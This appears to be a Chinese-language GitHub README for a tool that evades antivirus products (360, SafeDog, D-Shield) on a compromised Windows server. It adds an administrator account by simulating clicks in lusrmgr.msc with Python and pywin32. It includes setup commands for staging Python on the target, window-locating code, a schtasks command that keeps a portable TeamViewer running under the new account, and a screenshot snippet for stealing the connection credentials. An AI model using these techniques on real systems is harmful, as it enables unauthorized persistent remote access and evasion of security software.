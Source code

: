 # BypassAVAddUsers
一种基于行为模拟的理论绕过所有杀毒软件添加管理用户的手法研究

360 安全狗 D盾实测通过

https://xz.aliyun.com/t/4078


### 0x01 About


嗯 这是一个企图Uninstall All AVs失败的产物

基本思路是模拟点击 输入

通过下面指令可运行360的卸载程序

```
cd "C:/Program Files/360/360safe/" & start uninst.exe
```

![15497698568564.jpg](https://xzfile.aliyuncs.com/media/upload/picture/20190211224834-1b965c40-2e0c-1.jpeg)


这程序的按钮有两个ShadowEdge保护

![15497830116988.jpg](https://xzfile.aliyuncs.com/media/upload/picture/20190211224853-268aed64-2e0c-1.jpeg)


直接运行py脚本取点击会被拒绝

新建一个bat再用start来启动就可以绕过了

http://v.youku.com/v_show/id_XNDA1NzEyMzkyMA==.html?spm=a2h3j.8428770.3416059.1


如视频所示 模拟点击处最终确认按钮后无法点击 

查阅资料得知这尼玛是360SPTools.exe设了很多阻碍 搞一天没突破

回念一想 不如直接添加用户 才有了本文


### 0x02 server

为了方便修改调整 采用Python做了本次任务的 不是每个目标上都有py的环境 所以手动配置咯


直接上传或使用下面脚本下载Python的embeddable版本到服务器（脚本不支持https 改半天实在没办法 需到Py官网下载后再上传到http的服务器上 带解压）

```
https://github.com/TheKingOfDuck/BypassAVAddUsers/blob/master/download.php
```

![15497688551641.jpg](https://xzfile.aliyuncs.com/media/upload/picture/20190211225513-09247596-2e0d-1.jpeg)

![0CE11AF8D40F1C7F767F18E2B2C64A2D.png](https://xzfile.aliyuncs.com/media/upload/picture/20190211225534-15a487a2-2e0d-1.png)



由于需要用到`pywin32`模块 该模块无法使用pip安装所以顺便安装一下

pip：
```
start python.exe ../get-pip.py
```
（踩坑经验：先修改环境目录下的`python37._pth`文件，去掉 #import site 前的注释再执行命令 否则也无法安装成功不注释 不使用start来运行也安装不成功）

pywin32：

```
start python.exe -m pip install pywin32
```

执行完所有需要的依赖也就安装好了 无需GUI即可完成。

### 0x03 AddUsers

刚开始是想通过控制面板添加用户 可以通过脚本执行`control userpasswords`打开控制面板 但是步骤不叫繁琐 而且进程是`explore` 窗口不好控制。

可通过`lusrmgr.msc`（本地用户和组管理工具）来做。

![15498938908367.jpg](https://xzfile.aliyuncs.com/media/upload/picture/20190211225600-25497230-2e0d-1.jpeg)


打开后需要计算图中中间那个"用户"按钮的位置 经过测试发现 它到顶端的距离和到坐标的距离无人为调整的话是不会边的 所有可获取该窗口左上角点的坐标来计算其坐标

```
#输出MMCMainFrame的窗口名称
MMCMainFrame = win32gui.FindWindow("MMCMainFrame", None)
# print("#######################")
titlename = (win32gui.GetWindowText(MMCMainFrame))
# print(titlename)
# print("#######################")

hWndChildList = []
a = win32gui.EnumChildWindows(MMCMainFrame, lambda hWnd, param: param.append(MMCMainFrame),  hWndChildList)
# print(a)

#获取窗口左上角和右下角坐标
a, b, c, d = win32gui.GetWindowRect(MMCMainFrame)
```

a, b,即为需要的值

```
# 计算得出MMCMainFrame窗口的顶边距离“用户”这个标签120个坐标点 该值除非调动 否则不变
# userPosH = 237 -117
# print(userPosL)
# userPosL = 120
#计算得出MMCMainFrame窗口的坐标边距离“用户”这个标签120个坐标点 该值除非调动 否则不变
# userPosH = 1145 - 915
# print(userPosH)
# userPosH = 230
```

(a + 230, b + 120 )即为需要的值 实战中如有出入可采用PIL模块截图回传下来计算。


剩下的就是常规的模拟点击 模拟输入 完整代码见：


```
https://github.com/TheKingOfDuck/BypassAVAddUsers/blob/master/adduser.py
```



### 0x03 Test

360全家桶 安全狗 D盾等AV ：



http://v.youku.com/v_show/id_XNDA1NzEyMzkyMA==.html?spm=a2h3j.8428770.3416059.1


### 0x03 Summary

添加用户后如果服务器没开3389可上传一个单文件版本的teamviewer
再通过下面指令运行起来

```
schtasks /create /sc minute /mo 1 /tn “cat” /tr TV的路径  /ru 创建的用户名 /rp 创建的密码
```

使用PIL截图获取连接ID密码：

```
from PIL import ImageGrab
im = ImageGrab.grab()
im.save('screenshot.png')
```

如此一来就不用任何0day 全程合法文件的取得了远程桌面的权限。




